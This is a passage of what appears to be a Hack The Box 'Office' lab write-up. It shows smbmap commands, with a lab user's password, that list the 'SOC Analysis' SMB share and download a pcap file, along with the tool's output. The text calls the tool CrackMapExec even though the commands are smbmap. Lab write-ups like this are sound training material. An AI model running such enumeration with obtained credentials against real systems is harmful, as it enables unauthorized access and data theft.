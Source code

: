 - The pentester further enumerated the `SOC Analysis` share directory using the tool `CrackMapExec`.

```bash
smbmap -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' -r 'SOC Analysis' -H 10.10.11.3

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.11.3:445	Name: office.htb          	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SOC Analysis                                      	READ ONLY	
	./SOC Analysis
	dr--r--r--                0 Wed May 10 14:52:24 2023	.
	dr--r--r--                0 Wed Feb 14 05:18:31 2024	..
	fr--r--r--          1372860 Wed May 10 14:51:42 2023	Latest-System-Dump-8fbc124d.pcap
	SYSVOL                                            	READ ONLY	Logon server share 
```


- That's why he downloaded this file onto their attacker machine.

```bash
smbmap -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' -H 10.10.11.3 --download 'SOC Analysis/Latest-System-Dump-8fbc124d.pcap'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
[+] Starting download: SOC Analysis\Latest-System-Dump-8fbc124d.pcap (1372860 bytes)
[+] File output to: /home/kali/HTB/Office/content/10.10.11.3-SOC Analysis_Latest-System-Dump-8fbc124d.pcap
```
